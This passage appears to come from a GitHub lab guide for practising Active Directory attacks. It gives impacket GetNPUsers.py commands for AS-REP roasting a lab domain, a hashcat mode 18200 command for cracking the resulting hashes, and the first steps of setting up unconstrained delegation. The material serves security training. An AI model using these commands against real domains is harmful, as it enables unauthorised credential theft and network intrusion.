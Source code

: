 ![](https://github.com/H0j3n/EzpzActiveDirectory/blob/main/src/Pasted%20image%2020210810232137.png)


### Attack On Linux

- Use impacket tools (GetNPUsers.py)

```
# Download
https://github.com/SecureAuthCorp/impacket

# Commands
GetNPUsers.py -dc-ip 10.10.10.10 -request 'bank.local/AsrepRoastUser' -no-pass
```

![](https://github.com/H0j3n/EzpzActiveDirectory/blob/main/src/Pasted%20image%2020210810223812.png)

### Cracking

- Crack with hashcat using this command

```bash
# Mode
18200

# Commands
.\hashcat.exe -m 18200 .\hash.txt .\pass.txt
```

![](https://github.com/H0j3n/EzpzActiveDirectory/blob/main/src/Pasted%20image%2020210810224911.png)

### References

```bash
1. http://www.harmj0y.net/blog/activedirectory/roasting-as-reps/
2. https://book.hacktricks.xyz/windows/active-directory-methodology/asreproast
3. https://herrscher.info/index.php/2021/04/11/red-teaming-guide/
4. https://github.com/aniqfakhrul/archives#asrep-roasting
```

## Unconstrained-Delegation

### Setup

1. Create a Domain Join Computer and go to Server Manager -> Tools -> Active Directory Users and Computers. Click on Computer -> Right Click on the Domain join Computer -> Click on Properties.

![](https://github.com/H0j3n/EzpzActiveDirectory/blob/main/src/Pasted%20image%2020210811222825.png)

2. Go to Delegation tab and tick on **"Trust this computer for delegation to any service (Kerberos)"** and click Apply.

![](https://github.com/H0j3n/EzpzActiveDirectory/blob/main/src/Pasted%20image%2020210811222909.png)

